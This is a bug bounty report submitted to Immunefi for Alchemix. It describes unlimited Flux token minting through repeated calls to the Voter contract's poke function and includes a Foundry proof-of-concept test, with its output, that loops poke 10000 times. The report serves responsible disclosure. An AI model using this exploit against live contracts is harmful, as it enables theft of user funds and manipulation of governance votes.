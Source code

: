 
# Unlimited Flux minting

Submitted on May 15th 2024 at 04:01:45 UTC by @Tapir49939 for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31222

Report type: Smart Contract

Report severity: Critical

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Voter.sol

Impacts:
- Direct theft of any user funds, whether at-rest or in-motion, other than unclaimed yield
- Manipulation of governance voting result deviating from voted outcome and resulting in a direct change from intended effect of original results

## Description
## Vulnerability Details
The attacker can mint unlimited amount of Flux tokens.

The `vote` and `reset` functions of the `Voter` contract could be called only once in an Epoch. Therefore, the amount of Flux tokens minted is limited.

```
function reset(uint256 _tokenId) public onlyNewEpoch(_tokenId) {
    if (msg.sender != admin) {
        require(IVotingEscrow(veALCX).isApprovedOrOwner(msg.sender, _tokenId), "not approved or owner");
    }

    lastVoted[_tokenId] = block.timestamp;
    _reset(_tokenId);
    IVotingEscrow(veALCX).abstain(_tokenId);
    IFluxToken(FLUX).accrueFlux(_tokenId);  // Accrue Flux once in an Epoch, onlyNewEpoch modifier enforces this!
}
```

However, the `poke` function lacks such limitations and `onlyNewEpoch` modifier, and could be called any number of times. Poke calls `_vote` internal functions that accrues Flux.

```
function _vote(uint256 _tokenId, address[] memory _poolVote, uint256[] memory _weights, uint256 _boost) internal {
    _reset(_tokenId);

    uint256 _poolCnt = _poolVote.length;
    uint256 _totalVoteWeight = 0;
    uint256 _totalWeight = 0;

    for (uint256 i = 0; i < _poolCnt; i++) {
        _totalVoteWeight += _weights[i];
    }

    IFluxToken(FLUX).accrueFlux(_tokenId);  // Accrue Flux unlimited number of times through poke!!!
    ...
}
```

The attack scenario is simple:
1. Vote for a pool.
1. Keep calling `poke` in a loop, Flux will be minted.

## Impact Details
Consequences are dire:
1. Flux token has a market value.
1. Flux token could be used to boost the voting power.


## Proof of Concept
Run the test as: `forge test --mp src/test/Boost.t.sol  --fork-url 'https://...' -vv`

```
pragma solidity ^0.8.15;

import "./BaseTest.sol";

contract Boost is BaseTest {
    function setUp() public {
        setupContracts(block.timestamp);
    }

    function testFluxUnlimitedMint() public {
        address attacker = address(456);

        uint256 tokenId = createVeAlcx(attacker, 10e18, MAXTIME, false);

        address[] memory pools = new address[](1);
        pools[0] = sushiPoolAddress;
        uint256[] memory weights = new uint256[](1);
        weights[0] = 5000;

        assertEq(flux.getUnclaimedFlux(tokenId), 0);

        hevm.prank(attacker);
        voter.vote(tokenId, pools, weights, 0);

        uint256 unclaimedBalance1 = flux.getUnclaimedFlux(tokenId);

        // Here the attacker mints Flux
        // increase/decrease loop bound to see the varing amount of Flux
        hevm.startPrank(attacker);
        for (uint i; i < 10000; i++) {
            voter.poke(tokenId);
        }
        hevm.stopPrank();

        uint256 unclaimedBalance2 = flux.getUnclaimedFlux(tokenId);

        assertGt(unclaimedBalance2, unclaimedBalance1);
        
        console.log("Flux balance = %s", unclaimedBalance2);

        hevm.startPrank(attacker);
        flux.claimFlux(tokenId, unclaimedBalance2);
    }
}
```

Output:

```
Flux balance = 98165526504584473482437      // For 10000 iterations
Flux balance = 196321237438075597852437     // For 20000 iterations
...
```